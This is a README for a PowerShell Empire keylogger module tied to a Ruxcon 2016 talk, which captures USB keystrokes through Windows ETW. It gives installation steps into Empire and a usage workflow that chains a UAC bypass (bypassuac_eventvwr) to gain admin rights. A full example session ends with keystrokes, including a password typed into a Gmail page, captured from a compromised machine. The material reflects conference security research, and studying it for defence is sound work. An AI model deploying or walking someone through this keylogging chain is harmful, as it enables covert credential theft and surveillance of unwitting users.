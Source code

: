 # PSE_ETWKeylogger
PowerShell Empire module for our keylogging technique presented at Ruxcon 2016

Slides:  
https://ruxcon.org.au/slides/

C# POC Code:  
https://github.com/CyberPoint/Ruxcon2016ETW/tree/master/KeyloggerPOC


##Install
Copy files to PSE:  
Get-USBKeystrokes.ps1 -> <Empire_dir>/data/module_source/collection/  
USBKeyLogger.py -> <Emipre_dir>/lib/modules/collection/  

##Requirements
Windows 7* and up  
*Windows 7 - No USB 3.0 support  
USB Keyboard  
Admin priveleges  

##Usage
Requires admin to run (see UAC bypasses: privesc/bypassuac*). From a PSE agent session:  

usemodule collection/USBKeylogger  
execute  

##Example Session
(include UAC bypass)  

(Empire: privesc/bypassuac) > [+] Initial agent PTELZMW2KL4NKZMD from 10.10.10.181 now active  
interact  PTELZMW2KL4NKZMD  
(Empire: PTELZMW2KL4NKZMD) > usemodule privesc/bypassuac_eventvwr  
(Empire: privesc/bypassuac_eventvwr) > set Listener 1  
(Empire: privesc/bypassuac_eventvwr) > execute  
(Empire: privesc/bypassuac_eventvwr) >  
Job started: Debug32_gz2k1  
[+] Initial agent BQSZGT2BZH3A4CUT from 10.10.10.181 now active  
interact BQSZGT2BZH3A4CUT  
(Empire: BQSZGT2BZH3A4CUT) > usemodule collection/USBKeylogger  
(Empire: collection/USBKeylogger) > execute  
(Empire: collection/USBKeylogger) >  
Job started: Debug32_24nbw

ETWKeylogger, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
ETW library loaded  
Callback registered. Starting keylogger  
Started keylogger  

[=== Gmail and 1 more page ‎- Microsoft Edge - 09/11/2016:13:02:20 ===]  
password  

